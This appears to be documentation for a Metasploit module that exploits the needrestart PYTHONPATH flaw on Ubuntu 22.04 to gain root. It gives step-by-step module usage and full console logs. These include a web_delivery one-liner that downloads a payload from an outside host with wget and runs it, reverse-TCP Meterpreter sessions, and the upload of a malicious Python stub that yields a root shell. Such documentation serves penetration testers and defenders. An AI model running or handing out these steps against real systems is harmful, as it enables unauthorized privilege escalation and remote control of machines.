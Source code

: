 ## Vulnerable Application

Local attackers can execute arbitrary code as root by
tricking needrestart into running the Python interpreter with an
attacker-controlled PYTHONPATH environment variable.

Verified against Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell
4. Do: `use exploit/linux/local/ubuntu_needrestart_lpe`
5. Do: `set lhost <ip>`
6. Do: `set lport <port>`
7. Do: `set session <session>`
8. Do: `run`
9. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

Gain initial shell

```
msf6 > use exploit/multi/script/web_delivery
998
run[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set lport 4998
lport => 4998
msf6 exploit(multi/script/web_delivery) > set srvport 8998
srvport => 8998
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4998 
[*] Using URL: http://1.1.1.1:8998/dKtdkMS
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Ejq8lHli --no-check-certificate http://1.1.1.1:8998/dKtdkMS; chmod +x Ejq8lHli; ./Ejq8lHli& disown
[*] 2.2.2.2   web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4998 -> 2.2.2.2:52004) at 2024-11-22 12:07:55 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: h00die
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/ubuntu_needrestart_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lport 4977
lport => 4977
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set session 1
session => 1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set verbose true
verbose => true
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > run

[*] Started reverse TCP handler on 1.1.1.1:4977 
[*] Running automatic check ("set AutoCheck false" to disable)

[+] The target appears to be vulnerable. Vulnerable needrestart version 3.5-5ubuntu2.1 detected on Ubuntu 22.04
[*] Writing '/tmp/.1K8Hy2tOtq' (250 bytes) ...
[*] Uploading payload: /tmp/.1K8Hy2tOtq
[*] Creating directory /tmp/importlib
[*] /tmp/importlib created
[*] Uploading c_stub: /tmp/importlib/__init__.so
[*] Uploading py_script: /tmp/.FzzlJ
[*] Launching exploit, and waiting for needrestart to run...
```

On the remote Ubuntu box run `sudo needrestart`

```
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] chown: changing ownership of '/tmp/.1K8Hy2tOtq': Operation not permitted
[*] Error processing line 1 of /usr/lib/python3/dist-packages/zope.interface-5.4.0-nspkg.pth:
[*] 
[*]   Traceback (most recent call last):
[*]     File "/usr/lib/python3.10/site.py", line 192, in addpackage
[*]       exec(line)
[*]     File "<string>", line 1, in <module>
[*]   ImportError: dynamic module does not define module export function (PyInit_importlib)
[*] 
[*] Remainder of file ignored
[*] #########################
[*] 
[*] Dont mind the error message above
[*] 
[*] Waiting for needrestart to run...
[*] Payload owned by: root
[+] Deleted /tmp/.1K8Hy2tOtq
[+] Deleted /tmp/.FzzlJ
[+] Deleted /tmp/importlib
[*] Meterpreter session 2 opened (1.1.1.1:4977 -> 2.2.2.2:57644) at 2024-11-22 12:08:28 -0500

meterpreter > 
meterpreter > getuid
Server username: root
```
